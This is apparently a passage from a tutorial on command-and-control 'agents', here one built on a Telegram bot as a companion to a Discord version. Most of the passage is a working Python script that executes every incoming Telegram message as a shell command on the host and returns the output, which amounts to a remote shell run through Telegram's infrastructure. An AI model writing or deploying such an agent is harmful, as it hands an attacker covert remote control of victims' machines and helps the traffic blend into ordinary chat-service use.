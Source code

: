 This scenario is not unlike to the one used for Discord. In this scenario we also need to create a bot and use its API key in the code.

### Prerequisites
To create a bot in Telegram, We need use @botfather:
![botfather](./images/telegram-1.png)

### Agent
```python
import telebot
import subprocess
API_KEY = "REDACTED_API_KEY"
bot = telebot.TeleBot(API_KEY)
def execute_system_command(cmd):
    max_message_length = 2048
    output = subprocess.getstatusoutput(cmd)
    if len(output[1]) > max_message_length:
        return str(output[1][:max_message_length])
    return str(output[1])
@bot.message_handler()
def handle_any_command(message):
    if message.text.startswith("/start"):
        return
    response = execute_system_command(message.text)
    bot.reply_to(message, response)
```